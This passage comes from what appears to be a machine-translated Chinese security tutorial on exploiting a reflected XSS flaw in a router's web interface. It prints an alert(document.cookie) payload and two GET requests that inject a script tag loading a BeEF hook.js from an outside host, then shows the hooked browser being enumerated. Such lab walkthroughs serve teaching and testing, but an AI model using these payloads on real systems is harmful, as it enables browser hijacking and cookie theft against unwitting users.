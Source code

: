 11.  现在，我们可以使用基本负载`alert(document.cookie)`在浏览器中看到呈现的 cookie 值`IoTCookbook=1234567890`：

![](Images/5917c0dd-44e6-4ceb-98bc-7d0962aa5415.png)

令人惊叹的现在我们知道，我们可以在这一点上完成一些基本的 XSS 有效负载。幸运的是，我们还没有达到任何字符限制或任何类型的过滤。让我们看看我们是否可以造成更多的伤害，并在脆弱参数中插入一个牛肉钩有效载荷。毕竟，警报箱会带来什么风险？

# 介绍如何使用 BeEF XSS 有效负载

BeEF 是一种通过易受攻击的应用程序参数和社会工程技术，利用受害者环境中的 web 浏览器和客户端攻击向量的工具。当受害者执行其有效负载时，BeEF 将钩住一个或多个 web 浏览器，其中有许多命令模块可供进一步利用。下一节将对我们发现的 XSS 漏洞进行扩展，让它执行一个牛肉钩，然后讨论一些基本用途。

BeEF 功能强大，展示了 XSS 的强大影响力：

1.  现在，我们已经演示了基本 XSS 有效负载是如何执行的，我们将对其进行升级，并通过以下`GET`请求尝试使用与前两种格式类似的 BeEF 有效负载：

```
http://192.168.1.1/start_apply.htm?next_page= '+<script src=//172.16.100.139:3000/hook.js></script>+' 
```

2.  使用此`GET`请求，我们可以看到浏览器响应一个断页，如下图所示：

![](Images/8f20f997-5804-4dfb-8490-e2bd459956a4.png)

3.  同样，我们正在破坏一些 JavaScript 代码，阻止浏览器执行外部托管在 BeEF 服务器上的 JavaScript 代码。我们可能需要终止预期的 JavaScript 代码并启动我们自己的`<script>`标记来请求外部 JavaScript 代码。我们可以尝试添加带有打开和关闭脚本标记括号的参数，添加引号，然后尝试使用以下`GET`请求调用我们的 BeEF hook 负载：

```
http://192.168.1.1/start_apply.htm?next_page=param<script></script>+"<script src=http://172.16.100.139:3000/hook.js></script>
```

4.  当我们发送`GET`请求并查看浏览器响应时，它似乎输出了相同的损坏 JavaScript；但是，如果我们查看 ZAP，我们可以看到浏览器向我们的 BeEF 服务器发送请求：

![](Images/0e4d47ed-73f8-4246-99b6-18f7b14c7bd3.png)

5.  以下是 ZAP 历史记录选项卡中显示的牛肉钩请求：

![](Images/874c69c1-28ec-4c5c-af61-0a06d6c75255.png)

6.  通过 BeEF 服务器，我们成功地将浏览器与有效负载挂钩，如以下屏幕截图所示：

![](Images/84dc7381-1e28-4346-9c3b-8513ab31358e.png)

# 钩住受害者时牛肉的基本用法

以下是在钩住受害者时 BeFF 的基本用法：

1.  一旦受害者上钩，BeEF 会快速列举受害者计算机上运行的信息。

以下屏幕截图说明了 BeEF 捕获的内容：

![](Images/7e372f36-35c1-4f4f-a1ac-6c5f376f7f63.png)
